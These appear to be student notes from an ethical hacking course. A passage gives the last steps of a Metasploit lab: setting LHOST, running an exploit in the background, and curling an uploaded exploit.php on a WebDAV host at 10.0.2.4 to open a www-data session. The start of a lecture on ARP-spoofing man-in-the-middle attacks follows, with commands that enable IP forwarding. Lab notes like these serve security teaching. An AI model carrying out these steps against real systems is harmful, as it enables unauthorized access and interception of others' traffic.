 ```bash
set LHOST <PORT>
```

```bash
show options # confirm settings
```

### Step 9 : Run exploit as a Background Job

```
run -j
```

### Step 10 : In other terminal curl (same terminal where upload did)

```bash
curl http://10.0.2.4/dav/exploit.php
```

### Step 11 : Entering session

Once the other terminal after `curl` says that session open then in the msf console

```bash
session <session number shown>
```

when we type the command `whoami` it shows `www-data` since WebDAV runs through that.




# Ethical Hacking Unit 1 Lecture 1


## Man in The Middle Attack

We shall be trying `ARP Poisoning` / `ARP Spoofing`

### ARP : Address Resolution Protocol

Stateless protocol used for resolving IP address to MAC Address.

ARP table me mac address nhi milega then this request is broadcasted to the network

Once its obtained it is then stored in its ARP table


### What is ARP Spoofing ?

ARP packets can be forced to send data to attacker machine. Wireshark can be used to sniff packets.

### Check portforwarding enaled or not

```bash
cat /proc/sys/net/ipv4/ip_forward # If this outputs 0 then run the below command

echo 1 > /proc/sys/net/ipv4/ip_forward

cat /proc/sys/net/ipv4/ip_forward
```
